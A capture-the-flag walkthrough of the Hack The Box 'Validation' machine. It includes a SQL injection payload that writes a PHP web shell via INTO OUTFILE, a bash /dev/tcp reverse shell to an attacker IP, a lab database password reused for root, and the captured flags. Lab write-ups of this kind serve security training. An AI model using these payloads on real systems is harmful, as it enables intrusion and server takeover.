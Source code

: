 # Validation
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/34121d99-dd66-480a-a190-40e8a6267294)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.116 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 09:27 PDT
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 86.10% done; ETC: 09:27 (0:00:02 remaining)
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 87.80% done; ETC: 09:27 (0:00:02 remaining)
Nmap scan report for 10.10.11.116
Host is up (0.041s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8f5efd2d3f98dadc6cf24859426ef7a (RSA)
|   256 463d6bcba819eb6ad06886948673e172 (ECDSA)
|_  256 7032d7e377c14acf472adee5087af87a (ED25519)
80/tcp   open     http           Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open     http           nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http           nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.37 seconds
```

1. Based from the nmap result, our interest should be the web application and the ssh login. But anyway the only http port I can access is por 80.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/94029c75-dabe-43ca-9867-0bb97c48803d)


2. Intercepting the request in burpsuite, it seems we can change the country name to whatever we want.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e5374d98-bb44-42f2-bc8d-72974bb9a73a)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3873637f-4f76-45f4-a19f-51d8f4e1de8e)


3. Long story short, it's vulnerable to SQLi.

> Change the `Country` parameter to quote (').

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0023927a-4c1b-465b-8595-dac5e49189a5)


4. Great! Now we need to identify how many column that can be returned to us.

> USING ORDER BY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/27270404-01d2-4156-86fd-d2be2b449ee8)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/038bfe71-1b92-4a2b-8279-82754521dff5)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3f601f06-c93f-4bf0-8184-f4030a378ca8)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0fcf2495-8894-4551-ad8a-741663e392a9)


5. Got error, when sending 2. It means we can only return 1 column.
6. Based from the wappalyzer, we knew that the webapp is using PHP.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/87af3c2f-6aaf-412c-a92f-e3dc9a7d1dd5)


7. Great, sqli vuln in php-based webapp should allows us to drop a webshell.

> PAYLOAD

```txt
' UNION SELECT "<?php SYSTEM($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
```

```
┌──(brandy㉿bread-yolk)-[~]
└─$ curl http://validation.htb/shell.php?cmd=id                                                                       
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

8. Great, let's do reverse shell.

> REVSHELL

```
curl http://validation.htb/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.16.20/1337 0>&1"'
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b4b2a1b3-840d-4374-8e93-5bb3e1353cea)


9. Let's change from **SYSTEM** to **REQUEST**. So send our webshell first, then run the revshell again.

```
' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shellv2.php'-- -

curl http://validation.htb/shellv2.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.16.20/1337 0>&1"'
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/89caff78-8b16-486b-a51e-21072e1f527c)


10. Got shell!

> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4b692f56-cf5e-4d82-a841-a1d3a25ede90)


## USER FLAG

```
51e2c20c4ab36b81abbf2838ec8b3a63
```


11. Obviously we can't check sudo permission. The only thing that should be our interest is the config.php file at /var/www/html

> CONFIG.PHP

```php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

12. In config.php, we found a hardcoded db password.
13. The interpretation is this .php should mean something to us, what if there's a **password re-use**.
14. To prove that, run `su` and enter the db password.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b0d79fff-29ca-4b74-a6e8-7674d1ea52fb)


15. And we got root..

> GETTING ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/588cdc68-51e8-4a40-b350-f4ee1aff4d6c)


## ROOT FLAG

```
e9cab8999cf80c96fb793662a56dec55
```

